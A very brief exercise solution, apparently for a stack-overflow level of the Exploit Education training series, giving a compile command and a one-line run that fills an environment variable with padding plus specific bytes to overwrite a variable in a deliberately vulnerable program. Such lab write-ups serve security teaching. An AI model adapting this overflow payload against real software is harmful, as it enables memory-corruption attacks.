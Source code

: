 # Solution

Use same approach as for stack-one

```
% gcc -o run main.c
% ExploitEducation=$'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x0a\x09\x0a\x0d' ./run
```

